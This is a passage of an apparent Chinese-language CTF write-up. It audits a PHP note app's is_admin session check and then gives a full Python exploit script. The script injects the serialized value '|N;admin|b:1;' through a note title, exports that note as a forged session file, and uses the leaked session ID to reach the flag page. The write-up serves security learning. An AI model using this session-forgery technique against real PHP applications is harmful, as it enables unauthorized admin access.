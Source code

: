 再审计一下提供的源码中的 flag 身份验证:

```php
function is_admin() {
  if (!isset($_SESSION['admin'])) {
    return false;
  }
  return $_SESSION['admin'] === true;
}
```

也就是说只要 session 里面给 admin 赋个值就行, 再看一下 note 的命名和上传规则, 发现 note 的规则居然都在 session 里, 那么 这里就很明显是一处 session 伪造了;

## 反序列化伪造 session:

```python
import re
import requests
URL = 'http://3f5acb67-954b-4e36-918b-d89828576a87.node5.buuoj.cn:81/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

拿到flag;
